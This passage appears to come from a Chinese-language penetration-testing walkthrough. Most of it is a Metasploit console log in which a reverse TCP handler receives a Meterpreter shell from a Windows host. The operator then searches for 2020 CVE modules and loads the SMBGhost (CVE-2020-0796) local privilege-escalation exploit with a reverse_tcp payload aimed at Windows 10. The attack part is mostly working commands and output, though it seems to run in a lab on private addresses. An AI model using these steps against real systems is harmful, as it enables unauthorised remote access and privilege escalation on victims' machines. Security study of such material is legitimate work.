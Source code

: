 或者使用 MSF的内置EXP windows/local/cve_2020_0796_smbghost 来本地提权 

```
msf6 exploit(multi/handler) > set lhost 192.168.142.19
lhost => 192.168.142.19
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.142.19:4444 
[*] Sending stage (200262 bytes) to 192.168.142.61
[*] Meterpreter session 2 opened (192.168.142.19:4444 -> 192.168.142.61:51757) at 2020-11-08 15:28:20 +0800

meterpreter > 
meterpreter > getuid
Server username: DESKTOP-RL1VAD8\wy
meterpreter > background
msf6 exploit(multi/handler) > search cve_2020

Matching Modules
================

   #  Name                                                          Disclosure Date  Rank       Check  Description
   -  ----                                                          ---------------  ----       -----  -----------
   0  auxiliary/admin/sap/cve_2020_6287_ws_add_user                 2020-07-14       normal     Yes    SAP Unauthenticated WebService User Creation
   1  exploit/linux/misc/cve_2020_13160_anydesk                     2020-06-16       normal     Yes    AnyDesk GUI Format String Write
   2  exploit/windows/local/cve_2020_0668_service_tracing           2020-02-11       excellent  No     Service Tracing Privilege Elevation Vulnerability
   3  exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move  2020-03-10       excellent  Yes    Background Intelligent Transfer Service Arbitrary File Move Privilege Elevation Vulnerability
   4  exploit/windows/local/cve_2020_0796_smbghost                  2020-03-13       good       Yes    SMBv3 Compression Buffer Overflow


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/local/cve_2020_0796_smbghost                                                                                

msf6 exploit(multi/handler) > use 4
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2020_0796_smbghost) > show options 
Module options (exploit/windows/local/cve_2020_0796_smbghost):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.142.19   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 v1903-1909 x64

```